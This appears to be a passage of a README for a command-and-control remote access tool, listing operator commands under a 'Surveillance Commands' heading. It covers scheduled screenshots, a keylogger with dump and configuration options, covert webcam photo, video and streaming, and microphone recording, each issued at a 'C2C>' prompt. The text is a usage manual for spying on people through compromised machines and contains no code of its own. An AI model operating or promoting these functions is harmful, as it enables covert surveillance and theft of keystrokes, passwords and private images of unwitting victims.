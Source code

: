 
### 🔍 Surveillance Commands

#### Screenshot Capture
```
# Single screenshot
C2C> screenshot

# Multiple monitor screenshot
C2C> screenshot --all-monitors

# Scheduled screenshots
C2C> screenshot --schedule 5m

# Stop scheduled screenshots
C2C> screenshot --stop
```

#### Keylogger
```
# Start keylogger
C2C> keylog start

# Stop keylogger
C2C> keylog stop

# Get keylog data
C2C> keylog dump

# Clear keylog buffer
C2C> keylog clear

# Configure keylogger
C2C> keylog config --buffer-size 10000 --special-keys true
```

#### Webcam Control
```
# Take photo
C2C> webcam photo

# Record video (30 seconds)
C2C> webcam record 30

# Stream webcam
C2C> webcam stream

# List cameras
C2C> webcam list
```

#### Audio Recording
```
# Record audio (60 seconds)
C2C> audio record 60

# Set audio quality
C2C> audio config --quality high

# List audio devices
C2C> audio devices
```
